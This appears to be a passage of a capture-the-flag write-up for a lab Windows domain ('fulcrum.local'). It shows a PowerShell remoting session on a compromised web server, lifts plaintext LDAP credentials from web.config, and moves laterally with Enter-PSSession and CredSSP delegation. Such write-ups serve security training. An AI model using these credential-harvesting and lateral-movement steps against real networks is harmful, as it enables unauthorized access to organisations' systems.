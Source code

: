 ```Powershell
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir


    Directory: C:\Users\WebUser\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2017   8:39 PM            260 CheckFileServer.ps1
-a----       10/12/2017   4:23 AM          33266 Invoke-PsExec.ps1
-a----        10/2/2017   8:23 PM             24 user.txt



[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
You need to go deeper!

[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
$Server = '127.0.0.1' # Waiting on IT to give me the address...
$Creds = Get-Credential -Message 'Please enter file server credentials'

Get-CimClass -ClassName win32_operatingsystem -ComputerName $Server -Credential $Creds

# TODO: can't get this to work
```


Since the hostname of this system is _"WebServer"_ we should probably inspect the contents of the webroot... Inspecting the contents of the `web.config` we find credentials which looks like it will allow us to run LDAP queries.  
```
[192.168.30.130]: PS C:\inetpub\wwwroot> dir


    Directory: C:\inetpub\wwwroot


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2017   8:09 PM           5359 index.htm
-a----        10/2/2017   8:11 PM           1310 web.config


[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
<?xml version="1.0" encoding="UTF-8"?>
<configuration xmlns="http://schemas.microsoft.com/.NetConfiguration/v2.0">
    <appSettings />
    <connectionStrings>
        <add connectionString="LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local" name="ADServices" />
    </connectionStrings>
    <system.web>
        <membership defaultProvider="ADProvider">
            <providers>
                <add name="ADProvider" type="System.Web.Security.ActiveDirectoryMembershipProvider, System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" connectionStringName="ADConnString" connectionUsername="FULCRUM\LDAP" connectionPassword="PasswordForSearching123!" attributeMapUsername="SAMAccountName" />
            </providers>
        </membership>
    </system.web>
...[snip]...
[192.168.30.130]: PS C:\inetpub\wwwroot>

```

[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke